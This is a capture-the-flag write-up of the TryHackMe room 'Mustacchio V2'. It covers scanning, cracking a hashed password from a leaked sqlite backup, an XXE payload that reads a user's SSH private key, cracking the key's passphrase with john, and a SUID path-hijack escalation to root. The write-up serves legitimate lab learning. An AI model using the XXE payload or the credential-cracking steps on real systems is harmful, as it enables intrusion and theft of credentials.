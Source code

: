 # Mustacchio V2
Easy boot2boot machine

https://tryhackme.com/room/mustacchio

Author: zyeinn

## Recon
### Nmap Scan
At the commencement of each CTF challenge, our initial step consistently involves conducting an nmap scan.

```
sudo nmap -sC -sV -O -T4 10.10.41.60 -vv -p- -oG all
```

![Nmap Scan](/THM/MustacchioV2/images/nmap.PNG)

As evident from our findings, two ports, specifically port 80 and port 8765, are open and host a website.

### Gobuster Scan
Since there is a website that is being hosted, we will then run 
```
gobuster dir -t 100 --url http://10.10.41.60 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt
``` 
as part of our scan to find any hidden directories.

While waiting for the gobuster scan to finish scanning the directories, i went to the website to find for any hints to continue with the challenge.

![Website](/THM/MustacchioV2/images/website.PNG)

However i did not find anything that is useful to continue the challenge.

Once the Gobuster scan had completed, I returned to the terminal to review the results.

![Gobuster Scan](/THM/MustacchioV2/images/gobuster.PNG)

This is where i traversed around the directory that was discovered by the Gobuster and found something interesting in the custom/js folder.

![custom/js folder](/THM/MustacchioV2/images/custom.PNG)

I found the file called **"users.bak"** which immediately alarmed me that it could be an backup file that contains database information.

After downloading the file, this is where i ran 
```
file users.bak
```

![users.bak strings](/THM/MustacchioV2/images/usersbak.PNG)

which confirms my doubt that it was a sqlite backup file.

After that i ran **"sqlitebrowser"** and drop the file inside the newly opened tab.

![SQLite](/THM/MustacchioV2/images/SQLite.PNG)

This is where i found a username and password in hash format, so i used crackstation.net to crack the password.

![user](/THM/MustacchioV2/images/user.PNG)

![crack](/THM/MustacchioV2/images/crack.PNG)

### Port 8765
From the original website that is hosted at port 80, i couldn't use the login details that i have found from the previous recon so i decided to go to port 8765.

![login](/THM/MustacchioV2/images/login.PNG)

Ohhh shit, from here i found a login page and decided to give the username and password that i have gathered during the previous recon.

![successful login](/THM/MustacchioV2/images/successful.PNG)

It worked!

I then chose to spend some time exploring the website, during which I came across the following information.

![view source](/THM/MustacchioV2/images/source.PNG)

At this juncture, I opted to download the file (/THM/MustacchioV2/auth/dontforget.bak) from the website and inspect its contents, where I subsequently uncovered...

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>   
```

I made the decision to experiment with the form both by submitting it without any input and by using the input I had identified in the file.

![empty](/THM/MustacchioV2/images/emptyinput.PNG)

![xml](/THM/MustacchioV2/images/xmlinput.PNG)

At this point, I initiated a Google search to investigate XML vulnerabilities, which led me to discover a vulnerability known as XML External Entity (XXE) Processing.

## Exploitation
Recalling what we had discovered while examining the homepage
```
Barry, you can now SSH in using your key!
```

I decided to give the payload a try
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>  
```

![xxe](/THM/MustacchioV2/images/xxe.PNG)

It worked!

I proceeded to copy the RSA key using the command <mark style="background-color:grey">echo [rsa_key] > barry_id_rsa</mark>. It was apparent that the key was encrypted. To decipher the password, I employed the following command
```
ssh2john barry_id_rsa > for_john
john --wordlist=/usr/share/wordlists/rockyou.txt forjohn
```

![john cracked](/THM/MustacchioV2/images/cracked.PNG)

Subsequently, I utilized the "id_rsa" file along with the cracked passphrase to establish an SSH connection to the target machine.

![ssh](/THM/MustacchioV2/images/ssh.PNG)

## Privilege Escalation
### Potential methods for privilege escalation
I initiated a series of commands to assess the system for potential vulnerabilities.
```
"id" to check if the user was part of the LXC/LXD group.
"uname -a" to examine the kernel version and assess the system for potential kernel exploits
```

### SUID for privilege escalation
When I executed the command
```
find / -perm -u=s -type f 2>/dev/null
```

I came across an intriguing file that had the capability to run as a privileged user

![suid](/THM/MustacchioV2/images/suid.PNG)

I navigated to that directory and tried to find out what the file does.

At this point, I discovered that one of the commands within the program was not utilizing an absolute path.

![attack](/THM/MustacchioV2/images/attack.PNG)

This reminded me of the technique mentioned in the https://tryhackme.com/room/linuxprivesc, where a similar method was discussed for privilege escalation.

### Creating payload

![payload](/THM/MustacchioV2/images/payload.PNG)

Setting path for payload to execute

![path](/THM/MustacchioV2/images/path.PNG)

Execute the payload

![execute](/THM/MustacchioV2/images/root.PNG)

Viola, now you are root.

## Conclusion
This room provided me with an opportunity to apply the knowledge and skills I had been honing over the past two months, particularly in the areas of web exploitation, basic reverse engineering(strings), basic privilege escalation. With being able to pick up knowledge and skills on XML external entity (XXE) injection. Thank to zyeinn for creating the room.